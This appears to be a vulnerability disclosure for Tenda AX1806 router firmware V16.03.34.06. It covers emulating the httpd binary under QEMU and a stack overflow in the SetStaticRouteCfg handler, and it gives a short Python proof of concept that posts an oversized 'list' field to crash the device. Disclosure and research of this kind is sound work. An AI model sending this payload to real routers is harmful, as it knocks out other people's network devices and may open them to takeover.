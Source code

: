 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the function, which can be accessed via the URL .`fromSetRouteStatic goform/SetStaticRouteCfg`
![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/1_tenda-ac8_image.png）

Stack overflow point：

![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/2_tenda-ac8_image.png)

### PoC

```text-plain
import requests

data = {
    b"list": b'A'*0x400+b',A,A,A'
}
res = requests.post("http://ip/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

![image](https://github.com/Raining-101/IOT_cve/blob/23e96bdb4dae3997d1c5555a8011196e5e357ac1/image/3_tenda-ac8_image.png)
